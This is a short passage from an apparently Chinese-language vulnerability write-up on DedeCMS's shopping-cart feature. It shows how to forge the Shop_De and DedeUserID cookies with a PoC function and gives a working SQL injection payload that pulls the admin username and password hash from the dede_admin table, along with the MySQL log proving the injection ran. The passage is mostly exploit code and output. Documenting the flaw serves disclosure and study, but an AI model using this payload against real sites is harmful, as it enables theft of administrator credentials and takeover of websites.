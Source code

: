 <p>
Shop_De開頭的和 DedeUserID就是我們所需要的~
<p>
呼叫poc裡的函數
<p>
得到 最終playload

```php
dede_cracked("id=108&price=11&units=&buynum=1&title=aa","AWgGMlFrAzNUMAFqWyYBdFV0UmgHNFI3Vm0BMwUwBC4AdQc5CmRVIAcgBWtfNVBzATBVcwApAW8FdlE%2FWWBVaAEnBiJRPwN2VGwBN1s9AWVVZw==","id=',\"'&title=\" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#","encrypt");
```

修改cookie，提交訂單
可以看到mysql的執行日誌

```php
INSERT INTO `dede_shops_products` (`aid`,`oid`,`userid`,`title`,`price`,`buynum`)

                    VALUES ('',"'','wooyuni','8','" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#','0.00','0')
```

## **漏洞證明**

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.1/6.1-2.jpg)

